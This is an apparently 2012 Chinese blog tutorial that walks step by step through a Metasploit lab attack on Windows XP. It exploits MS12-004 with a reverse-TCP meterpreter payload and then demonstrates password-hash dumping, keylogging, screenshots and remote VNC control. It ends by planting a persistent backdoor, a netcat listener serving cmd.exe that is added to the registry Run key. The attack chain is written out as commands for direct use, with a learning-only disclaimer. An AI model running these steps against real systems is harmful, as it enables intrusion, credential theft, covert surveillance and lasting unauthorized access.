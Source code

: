 ```yaml
---
title: 利用Metasploit进行渗透测试
tags:
  - Backtrack
  - Breaker
  - BT5
  - Metasploit
  - meterpreter
  - Netcat
  - 漏洞
id: 165
categories:
  - Hacking
date: 2012-04-11 11:35:53
---
```


声明：本教程仅限供广大网络安全爱好者交流学习之用，任何人不得用于非法用途，否则后果自负。

最近在玩Backtrack 5 ，就把最近学到的东西分享下。

所有工具都是Backtrack 5 自带的，

用到的工具 ： 大名鼎鼎的Metasploit Feamwork    还有 Netcat

<!--more-->

要利用的漏洞：MS12-004 ，虽然漏洞是几个月前出的了，但这里只做渗透演示，重点在讲解工具的使用方法。

废话不说，看步骤 ：

&nbsp;

在控制台执行 msfconsole 启动Metasploit  ，

![](http://pic.0x7c00.cn/metasploit/1.png)

&nbsp;

输入命令 search ms12_004，我们来找找ms12-004漏洞的利用模块

![](http://pic.0x7c00.cn/metasploit/2.png)

&nbsp;

已经找到了，接下来使用该模块

输入命令  Use exploits/windows/browser/ms12_004_midi

![](http://pic.0x7c00.cn/metasploit/3.png)

&nbsp;

接下来输入命令 show options ，显示该漏洞的基本信息，以及要设置的参数

![](http://pic.0x7c00.cn/metasploit/4.png)

&nbsp;

设置参数：

输入命令 ： set  SRVHOST  192.168.42.139

Set  PAYLOAD  windows/meterpreter/reverse_tcp

Set  LHOST  192.168.42.130

Set  URIOATH  /

&nbsp;

最后 再输入show options ，查看是否设置好

![](http://pic.0x7c00.cn/metasploit/5.png)

&nbsp;

已经OK了，开始渗透。

执行命令 ：Exploit

![](http://pic.0x7c00.cn/metasploit/6.png)

&nbsp;

可以看到服务已经启动了，链接地址[http://192.168.42.130:8080/](http://192.168.42.130:8080/)

在用Xp打开恶意链接地址 [http://192.168.42.130:8080/](http://192.168.42.130:8080/)

![](http://pic.0x7c00.cn/metasploit/7.png)

&nbsp;

BackTrack 开始渗透，

这边BT5已经有反应了 ，渗透成功~

![](http://pic.0x7c00.cn/metasploit/8.png)

&nbsp;

输入命令 Sessions

![](http://pic.0x7c00.cn/metasploit/9.png)

&nbsp;

我们看到有一个会话，会话的 ID 是1  ，开打开这个会话

输入命令 Sessions  -i  1 这时，我们已经进入了Meterpreter

&nbsp;

![](http://pic.0x7c00.cn/metasploit/10.png)

&nbsp;

Meterpreter 是一个很强大的 payload ， 具体说明输入 help 可以看到，

Meterpreter  &gt;  hashdump     // 可以看到远程主机帐号和加密后的密码

![](http://pic.0x7c00.cn/metasploit/11.png)

这里再说几个常用的Meterpreter  命令

&nbsp;

Meterpreter  &gt;  keyscan_start   //开启键盘记录

&nbsp;

Meterpreter  &gt;  heyscan_dump  //  查看键盘记录的内容

Meterpreter  &gt;  keyscan_stop    //  关闭键盘记录

Meterpreter  &gt;  shell   //看下图大家都懂的

![](http://pic.0x7c00.cn/metasploit/12.png)

Meterpreter  &gt; ps  //  获取远程主机进程列表，比windows自带的任务管理器清晰多了

![](http://pic.0x7c00.cn/metasploit/13.png)

Meterpreter  &gt; screenshot   //  截取远程桌面屏幕

![](http://pic.0x7c00.cn/metasploit/14.png)

Meterpreter  &gt; run vnc  // 开启远程主机vnc 服务

过一会，可以看到桌面，并且可以控制鼠标和键盘

![](http://pic.0x7c00.cn/metasploit/15.png)

&nbsp;

好，下来我们来留后门，方便以后常来 ~

先上传 nc.exe（netcant）到windows的systen32文件夹下

Upload   /pentest/windows-binaries/tools/nc.exe   c:\windows\system32

![](http://pic.0x7c00.cn/metasploit/16.png)

&nbsp;

已经成功了，下来我们将nc.exe加到注册表，让他开机自启动

&nbsp;

先查看注册表

Reg  enumkey  -k  HKLM\SOFTWARE\Miorosoft\Windows\CurrentVersion\Run

![](http://pic.0x7c00.cn/metasploit/17.png)

已经可以看到注册表键值了

下来加入注册表

Reg  setval  -k  HKLM\SOFTWARE\Miorosoft\Windows\CurrentVersion\Run  -v  backdoor  -d  c:\windows\system32\nc.exe"-L  -d  -p  443  cmd.exe"

（上面是一条命令）

![](http://pic.0x7c00.cn/metasploit/18.png)

提示成功，看看XP的注册表

![](http://pic.0x7c00.cn/metasploit/19.png)

已经有了这个键值

我们重启远程主机试下

输命令 reboot

![](http://pic.0x7c00.cn/metasploit/20.png)

由于远程主机已经关闭，显示链接断开 ，等xp重启后，我们试试留的后门

Telnet   192.168.42.139   443

![](http://pic.0x7c00.cn/metasploit/21.png)

已经连接成功了  : )  .。刚接触BT5，各位见笑了  ... 论坛有玩B5或者 Metasploit 的朋友可以联系我，求交流。

QQ :791628659

                                                                                          By  Breaker

本文地址[http://0x7c00.cn/?p=165](http://blog.0x7c00.cn/?p=165)

2012年4月10日11:34:16